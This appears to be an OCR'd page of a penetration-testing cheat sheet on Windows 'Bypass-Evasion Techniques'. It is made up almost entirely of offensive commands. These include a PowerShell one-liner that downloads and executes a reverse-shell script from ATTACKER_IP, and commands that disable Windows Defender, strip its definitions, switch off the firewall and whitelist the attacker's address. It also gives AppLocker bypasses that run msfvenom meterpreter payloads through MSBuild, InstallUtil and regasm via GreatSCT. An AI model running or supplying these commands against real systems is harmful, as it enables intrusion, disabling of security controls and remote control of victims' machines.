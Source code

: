 Bypass-Evasion Techniques
     Powershell Constrained Language Bypass

    powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')
    PSByPassCLM

     Windows Defender

    sc config WinDefend start= disabled
    sc stop WinDefend
    # Powershell
    Set-MpPreference -DisableRealtimeMonitoring $true
    # Remove definitions
    "%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

     Firewall

    Netsh Advfirewall show allprofiles
    NetSh Advfirewall set allprofiles state off

     Ip Whitelisting

    New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP

     Applocker ByPass

    https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
    https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/VerifiedAppLockerBypasses.md
    https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/DLL-Execution.md
    # Multistep process to bypass applocker via MSBuild.exe:
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.56 LPORT=9001  -f csharp -e x86/shikata_ga_nai -i  > out.cs
    # Replace the buf-sc and save it as out.csproj
    https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
    Invoke-WebRequest "http://ATTACKER_IP/payload.csproj" -OutFile "out.csproj"; C:\windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe .\out.csproj

     GreatSCT

    # This also needs Veil-Framework
    python GreatSCT.py --ip 192.168.1.56 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"
    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload1.exe
    python3 GreatSCT.py -t Bypass -p regasm/meterpreter/rev_tcp --ip 192.168.1.56 --port 9001
    C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U payload.dll
